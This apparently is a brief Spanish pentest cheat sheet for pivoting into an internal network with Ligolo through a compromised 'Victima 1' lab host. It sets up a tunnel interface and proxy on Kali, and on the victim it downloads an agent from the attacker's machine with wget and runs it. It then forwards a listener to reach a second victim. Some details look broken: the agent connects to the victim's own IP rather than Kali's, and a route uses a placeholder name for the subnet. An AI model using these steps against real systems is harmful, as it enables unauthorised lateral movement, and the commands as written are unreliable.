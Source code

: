 # LIGOLO


- tar -xf 



sudo ip tuntap add user $USER mode tun ligolo

sudo ip link set ligolo up


**red_pivoting -> 192.168.1.0/24**

sudo ip route add red_pivoting dev ligolo



## KALI LINUX    ip -> 10.0.2.100

chmod +x proxy

./proxy -selfcert

puerto -> 11601




## Maquina Pivoting  (Victima 1)    ip -> 10.0.2.101         ip2 -> 192.168.1.101



wget http://10.0.2.100/agente

chmod +x agente

./agente -connect 10.0.2.101:11601  -ignore-cert


 ### Maquina Kali

    - session 

    - Enter

    - start

    - ping -c 1  192.168.1.102

    - listener_add --addr 0.0.0.0:4443 --to  127.0.0.1:4443

    - listener_list

## Maquina Victima 2    ip -> 192.168.1.102



## Limpieza
 sudo ip route del red_pivoting dev ligolo

 sudo ip link del ligolo